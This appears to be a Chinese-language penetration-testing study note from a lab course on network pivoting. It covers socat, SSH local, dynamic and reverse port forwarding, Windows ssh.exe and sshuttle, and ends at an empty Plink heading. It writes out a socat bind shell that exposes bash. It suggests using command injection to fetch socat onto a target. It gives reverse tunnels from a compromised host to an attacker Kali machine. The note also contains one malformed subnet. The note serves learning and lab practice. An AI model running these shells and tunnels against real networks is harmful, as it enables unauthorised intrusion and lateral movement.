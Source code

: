 # socat端口转发
## 使用场景
目标主机含有两个网卡，即含有一个内网 ip段
没有防火墙或者防火墙开放所有 inbound
![[Pasted image 20240129095240.png]]
## 使用方法
使用 socat 测试网络联通
`socat - TCP-LISTEN:8080`  监听TCP8080
`socat - TCP:localhost:8080`   启动client链接TCP
使用 socat 信息传输
`socat - TCP-LISTEN:8080,fork,reuseaddr`    启动server
`socat - TCP:localhost:8080`     启动client
fork 参数可以应答对个socket连接，reuseaddr 防止链接没断开玩无法监听的问题
或者使用UDP
`socat - UDP-LISTEN:8080`
`socat - UDP:localhost:8080`
使用socat进行端口转发
**一般主机不会含有 socat 应用，这时需要使用[[命令注入漏洞|命令注入]] 漏洞来远程下载 socat 并且执行**
`socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432`
 -ddd 为输出详细信息 在目标端口开放2345端口，将数据转发到内网10.4.50.215的5432端口
使用 socat 连接 shell
`socat TCP-LISTEN:8080,fork,reuseaddr EXEC:/usr/bin/bash,pty,stderr `  服务端
`socat file:tty,raw,echo=0 TCP:localhost:8080`     客户端



# SSH 端口转发
## 使用场景
ssh 端口转发可以在含有防火墙的网络中使用
一般在内网主机不能访问外网或者只有固定端口可以出网的网络中无法使用 ssh 端口转发，这时使用[[隧道工具|隧道技术]]
ssh 应用在各种服务器中都有含有，利用价值高
## 使用方法
本地端口转发 local port forwording
![[Pasted image 20240129154102.png]]
类似与 socat 工具，在没有[[Linux 防火墙#iptables防火墙|防火墙拦截]]或者防火墙开放所有端口时，可以使用
SSH 本地端口转发不同与 socat，数据包侦听与接受不是同一个主机，而是分成两个主机，在两个主机 (一个 SSH 客户机和一个 SSH 服务器)之间建立 SSH 连接，SSH 客户机打开一个监听端口，在该端口上接收的所有数据包都通过 SSH 连接隧道传送到 SSH 服务器
确定建立 ssh 端口转发时，已知两个主机的 ssh 密码
`ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215`
` 0.0.0.0:4455为CONFLUENCE01`
` 172.16.50.217为????`
` 10.4.50.215为PGDATABASE01`
-N 参数表示不使用 shell，-L 代表本地端口转发，第一个是本地地址和开放端口，第二个是远程地址和开放端口，两个主机间建立 ssh 隧道
`ss -ntplu`查看监听的端口
**动态端口转发**：
![[Pasted image 20240129165413.png]]
动态端口转发是本地端口转发的升级版，不需要指定远程连接端口，主要用于进入内网后对内网进行扫描
防火墙关闭或者开放所有端口
`ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215`
` 0.0.0.0:9999为CONFLUENCE01`
` 10.4.50.215为PGDATABASE01`
-D 代表动态端口转发，在 CONFLUENCE01执行上述命令
**反向端口转发**：
![[Pasted image 20240129171532.png]]
一般常见网络中会含有防火墙，对于入站流量会严格管制，无法使用常见端口转发
防火墙对于入站流量管制，对于出战流量没有限制，可以使用反向端口转发
`ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4`
` 127.0.0.1 192.168.118.4为kali`
` 10.4.50.215为PGDATABASE01`
-R 代表反向端口转发，在 CONFLUENCE 01 主机执行上述命令，在 kali 上会开放 127.0.0.1:2345 建立隧道
**反向动态端口转发**：
![[Pasted image 20240129174956.png]]
使用反向动态端口转发对内网进行枚举
`ssh -N -R 9988 kali@192.168.118.4`
在 CONFLUENCE 01 中执行上述命令


## SSH. EXE windows 工具
ssh 已经默认安装在 windows 中，一般安装在%system driver%:\\windows system 32\\OpenSSH
一般 windows 会设有防火墙，对与入站流量会拦截，所以使用反向端口转发
![[Pasted image 20240129205306.png]]
`where ssh`   搜索ssh的位置
`ssh.exe -v ` 查看ssh版本
`ssh -N -R 9090 kali@192.168.118.4`
-R 使用动态反向端口转发


# sshuttle 端口转发
一般内网要比想象中哟啊复杂，这是可以使用 sshuttle 工具
sshuttle 需要客户端 ssh 的 root 权限和服务端 python 3 权限
Kali -->(192.168.500/24)-->CONFLUENCE 01-->(10.4.50.0/24)-->PGDATABASE 01-->(172.16.50.0/24)-->HR 
`socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22`
首先使用 socat 转发内网中含有 ssh 的主机
`sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24`
使用 sshuttle 连接两个内网网段，--dns 表示转发本地 dns 请求



# Plink 端口转发

